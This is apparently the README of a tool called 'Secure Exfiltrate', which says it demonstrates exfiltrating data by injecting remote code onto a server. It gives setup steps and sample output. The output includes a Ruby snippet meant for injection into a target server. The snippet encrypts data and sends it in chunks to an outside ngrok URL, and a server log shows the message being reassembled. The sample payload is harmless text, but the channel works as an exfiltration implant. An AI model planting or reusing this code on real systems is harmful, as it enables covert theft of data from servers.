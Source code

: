 # Secure Exfiltrate

This project sets up a secure channel that can receive messages from an embedded server. It demonstrates the exfiltration of information by injecting remote code onto a server. However, as a security professional, it ensures that the extracted information is not compromised.

## Prerequisites

Before running this project, make sure you have the following dependencies installed:

- Node.js
- npm
- ngrok (with an account and agent authtoken configured)
- Python 3

## Installation

1. Install the `concurrently` package globally by running the following command:

   ```bash
   npm install -g concurrently
   ```

2. Clone this repository:

   ```bash
   git clone https://github.com/your-username/secure-exfiltrate.git
   ```

3. Navigate to the project directory:

   ```bash
   cd secure_exfiltrate
   ```

## Usage

To start the main service and set up the ngrok tunnel, run the following command:

```bash
make start
```

Example Runtime output (NOTE: the key is randomly generated each time):

```bash
Starting services with concurrently...
Ngrok URL: https://f8d5-98-225-53-234.ngrok-free.app
Ruby Code to inject, for safe transmission:
=================================

require 'openssl'
require 'base64'
require 'net/http'
require 'uri'

debug = false
payload = "hello world " * 1000
public_key = OpenSSL::PKey::RSA.new("-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvXmwmaNq0EmOUOYh4tOh\nd4VYOdr3CmCRcS3FVyjt473v+KFqQElB3domKHRQt4yAaAly4Yi9m6DbMOTzOL5E\ni8lkY4Y9Lw0n7VFLiqVGQQOObAcdyEQ7G5kCZ6xAk7xoF25kXfSkAPpaejvGZKeR\niX0PVLygfrUT/p9grc3nTJGk1COH7dHX7HTW8eO8XZDsiRFqLy2K6LVw4ZTkfjMT\n24imFKPuXKT0twmrEpxdKmLv2pCH82VHuu+QWRhxD9E46heAvYvaz0SXt1zNK7wc\nz47A/Pzw+MJcc9jjDkYaCqv2gr1K0ZCANL/2j49a1aoXicn1HGdqrTzSBjhsSWiB\nKwIDAQAB\n-----END PUBLIC KEY-----\n")
chunks = payload.scan(/.{1,#{public_key.n.num_bytes - 42}}/)
midx = (0...10).map { ('a'..'z').to_a[rand(26)] }.join
chunks.each_with_index { |chunk, index| encrypted_chunk = public_key.public_encrypt(chunk); encrypted_base64_chunk = Base64.strict_encode64(encrypted_chunk).strip; encoded_chunk = URI.encode_www_form_component(encrypted_base64_chunk); uri = URI.parse("https://f8d5-98-225-53-234.ngrok-free.app/"); uri.query = "n=" + encoded_chunk + "&m=" + midx + "&x=" + index.to_s + "&z=" + chunks.length.to_s; response = Net::HTTP.get_response(uri); puts "==> " + response.code + ": [" + response.body + "]" if debug }

=================================

 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 ==> Decrypted data for message: #jfltbicvcc part 1 (1/2) -> 214 bytes
127.0.0.1 - - [22/Nov/2023 09:43:08] "GET /?n=WPc2Q/46DDoVPX8K5jMEWfDYB4cPdrp/eNMukimma3qh/3uutOsyOJh7CP9H425FKCgsn95%2B1kJHQYW0Zt%2BwoT87hiKxcyS3NTPu6jazF6H9NewDxIumgKKHuS86JjUfEoTZ9EheS3tLu5IVhhEvEDNnzDrttXfuWDCLUTb%2B4UD2smMdo56KAvghKDwXddh776p%2B9cKQqYkTglq/wbpHPhD3JYofjZA4tVgDdTdrDhPnacrj7A%2B37kPdRon51cG6oWzakd8YhxPzRisUHAG2j2pjLl1bBaHIRs1wKeEzbvk8/JhkZCfApPbPu9qug7KYIHjPrjGx62XwTY2kRWSZQw%3D%3D&m=jfltbicvcc&x=0&z=2 HTTP/1.1" 200 -
 ==> Decrypted data for message: #jfltbicvcc part 2 (2/2) -> 146 bytes
Complete message for message ID jfltbicvcc:
=================================
hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world hello world 
=================================

127.0.0.1 - - [22/Nov/2023 09:43:08] "GET /?n=oP/Ia/A9dJUtg13w/B9iur4Rll7XLVldqrXOchry1Nm56AIguLrB6TrrF%2Bhc0Ok9IXxUrcf0lViHQ1FNqMrxVSf1jhtDEayTlITRgRrY2klPo17%2ByK1FJvToBSIfFkk2ruiCy40lMRycLB1s3BF3%2BIFQx9ivOcu5PopHYpa/JFcXjjZfeFsbRChFPjchgzGWdYoK1huLsPwur5KlYLAolCfU8dRNwuDf5MwjnGbi1U2J1bWTo/GGGtjYVGHMOvX3IvdVnh57AVT%2BgfR75LEP8fTK%2BSfOtzWYNSgCJa2DFMvgLUHd6NgQndRfOtokuW/f5RpEs%2BaKaSOE9puLJiJ/dQ%3D%3D&m=jfltbicvcc&x=1&z=2 HTTP/1.1" 200 -
```
